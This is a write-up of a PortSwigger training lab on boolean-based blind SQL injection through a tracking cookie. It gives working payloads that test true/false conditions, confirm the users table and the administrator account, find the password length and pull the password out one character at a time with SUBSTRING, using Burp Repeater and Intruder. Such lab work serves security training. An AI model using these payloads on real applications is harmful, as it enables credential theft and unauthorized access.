# 🎯 Blind SQL Injection: Conditional Responses

**Write-Up by Aditya Bhatt | Blind SQLi | Boolean-Based Extraction | BurpSuite**

This PortSwigger lab uses a **tracking cookie** in a backend SQL query.
The response never exposes database output — instead, it shows a **Welcome back** message *only when the SQL condition is true*.
We exploit this boolean behaviour to extract the **administrator’s password, character by character**, and finally log in.



---

# 🧪 TL;DR

* Blind SQLi via **TrackingId** cookie
* Presence of **Welcome back** = TRUE
* Absence = FALSE
* Determine:

  * If table exists
  * If admin exists
  * Password length
  * Password characters (a-z0-9)
* Final Password → Log in → **Lab Solved**

---

# 🌐 Brief Intro

Unlike UNION-based SQLi, here we **cannot see query results**.
But we *can* detect boolean conditions by checking if **Welcome back** appears.

Using this truth leak, we:

1. Verify injection
2. Confirm table and admin user
3. Binary-check password length
4. Bruteforce each character using SUBSTRING
5. Reconstruct the entire password
6. Log in as administrator

Let’s break it down with screenshots.

---

# 🧬 Step-By-Step PoC (Screenshots Included)

## **1. Open the Lab and Select a Filter like Pets**

Captured the request to identify cookies.



➤ **Why?**
This gives us the baseline request so we know exactly where the **TrackingId** parameter is included and how the app behaves.

---

## **2. Send the Request to Repeater (Ctrl + R)**

Repeater helps us manipulate the cookie.



➤ **Why?**
Repeater allows controlled testing of payloads and observing the presence/absence of **Welcome back**.

---

## **3. Analyze the Request Structure**

Here’s the real request we're testing:



➤ **Why?**
We confirm the injection point is inside the **TrackingId** cookie which the backend uses in a SQL query.

---

## **4. Test Boolean TRUE Condition**

```
' AND '1'='1
```



➤ **Why?**
This payload injects a tautology that always evaluates TRUE, so the backend returns **Welcome back**, confirming SQL injection works.

---

## **5. Test Boolean FALSE Condition**

```
' AND '1'='2
```



➤ **Why?**
This condition is always FALSE, so **Welcome back** disappears — establishing our TRUE/FALSE detection mechanism.

---

## **6. Verify `users` Table Exists**

```
' AND (SELECT 'a' FROM users LIMIT 1)='a
```



➤ **Why?**
If the table `users` exists, the subquery returns `'a'`, making the condition TRUE → Welcome back.

---

## **7. Verify Administrator User Exists**

```
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```


➤ **Why?**
If the `administrator` user exists, the subquery returns `'a'`, and we see **Welcome back**, proving the user exists.

---

## **8. Determine Password Length**

```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```



➤ **Why?**
We check increasing lengths. When TRUE → password is longer. When FALSE → we've exceeded its actual length.

---

## **9. Intruder Attack to Automate Length Detection**

Sniper → Payload from **1 to 21**.



Result:
Welcome back stops at **20** → Password length = **20**

➤ **Why?**
Intruder automates LENGTH(password)>X checks to quickly identify the exact size.

---

## **10. Character Bruteforce Setup (a-z0-9)**

Generate payload list:


BurpSuite Professional has built-in lists having [a-z0-9].

Python script for Community Users to automatically generate the list.

```
import os

filename = "payload.txt"

# Create the file if it doesn't exist
if not os.path.exists(filename):
    open(filename, "w").close()

# Write a-z and 0-9 each on a new line
with open(filename, "w") as f:
    # a-z
    for c in range(ord('a'), ord('z') + 1):
        f.write(chr(c) + "\n")
    
    # 0-9
    for n in range(10):
        f.write(str(n) + "\n")

print("payload.txt generated successfully!")
```

➤ **Why?**
This file is used as the Intruder payload list to test each character against the SUBSTRING query.

---

## **11. Extract Character at Position 1**

```
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```



Character obtained = **6**

➤ **Why?**
This tests if position 1 equals a given character. TRUE → Welcome back → we found the correct character.

---

## **12. Repeat for All Positions (1 → 20)**

Pattern:

```
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```

```
' AND (SELECT SUBSTRING(password,20,1) FROM users WHERE username='administrator')='a
```



Final password reconstructed:

**611d1j31f4ynt74wibio**

➤ **Why?**
Repeating the same boolean check for each index reveals all characters sequentially.

---

## **13. Log In as Administrator**



---

## **14. Success — Lab Solved 🎉**



---

# 🧠 Key Takeaways

* Blind SQL injection relies entirely on **indirect clues**, not errors.
* Boolean-based attacks require:

  * Consistent TRUE/FALSE reflection
  * Repeater for manual checks
  * Intruder for automating brute-force
* SUBSTRING checks allow full password extraction.

---

# 🔥 Final Thoughts

This lab is the perfect example of how **non-verbose SQLi** still leaks full credentials when an app reflects conditional behaviour.
Blind SQLi mastery is essential for real-world red teaming and VAPT engagements.

Stay relentless. <br/>
— **Aditya Bhatt** 🔥

---

